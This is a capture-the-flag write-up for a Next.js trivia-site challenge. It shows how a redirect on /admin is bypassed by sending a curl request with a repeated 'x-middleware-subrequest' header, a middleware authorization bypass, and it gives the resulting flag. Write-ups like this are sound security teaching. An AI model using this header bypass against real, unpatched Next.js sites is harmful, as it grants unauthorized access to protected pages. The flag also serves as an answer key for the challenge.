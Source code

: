 # Waterloo Trivia Dash

```
Test your knowledge about Waterloo with this fun trivia game! Complete the quiz to unlock the prize page and claim your reward.
http://challs.watctf.org:3080/ 
```

Visit the website, we find that the source code uses Next.js. After answering all questions, it goes to `/admin`, but immediates redirects back:

```shell
$ curl -v "http://challs.watctf.org:3080/admin"
* Host challs.watctf.org:3080 was resolved.
* IPv6: (none)
* IPv4: 172.174.211.227
*   Trying 172.174.211.227:3080...
* Connected to challs.watctf.org (172.174.211.227) port 3080
* using HTTP/1.x
> GET /admin HTTP/1.1
> Host: challs.watctf.org:3080
> User-Agent: curl/8.14.1
> Accept: */*
>
* Request completely sent off
< HTTP/1.1 307 Temporary Redirect
< location: /
< Date: Tue, 09 Sep 2025 22:11:35 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< Transfer-Encoding: chunked
<
* Connection #0 to host challs.watctf.org left intact
/
```

Recalling a recent challenge [EPIC CAKE BATTLES OF HISTORY!!!](../2025-08-22-brunnerctf2025/epic-cake-battles-of-history.md), there is a vulnerability in Next.js middleware bypass:

```shell
$ curl -v "http://challs.watctf.org:3080/admin?_rsc=1ld0r" -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"
```

Flag is shown in the response: `watctf{next_js_middleware_is_cool}`.
